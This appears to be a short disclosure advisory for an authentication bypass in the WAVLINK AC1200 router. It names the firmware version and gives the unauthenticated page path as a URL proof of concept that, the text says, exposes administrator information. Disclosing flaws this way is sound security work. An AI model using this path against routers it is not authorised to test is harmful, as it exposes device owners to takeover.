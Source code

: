 # WAVLINK AC1200 Router Unauthorized Access Vulnerability 1

### 0x01 Vulnerability description

A vulnerability is in the 'live_mfg.html' page of the WAVLINK AC1200, version WAVLINK-A42W-1.27.6-20180418, which can allow a remote attacker to access this page without any authentication. When processed, it exposes some key information of the manager of router.

```
http://192.168.1.40/live_mfg.html
```

### 0x02 Affected version

```
WAVLINK AC1200
```

### 0x03 PoC verification
Visiting the corresponding page directly through the browser can reveal some key information about the device. Or you can get key information about the device by using the following command.

```
http://192.168.1.40/live_mfg.html
```

![-w683](img/16194899322493.png)

### 0x05 Acknowledgement

z3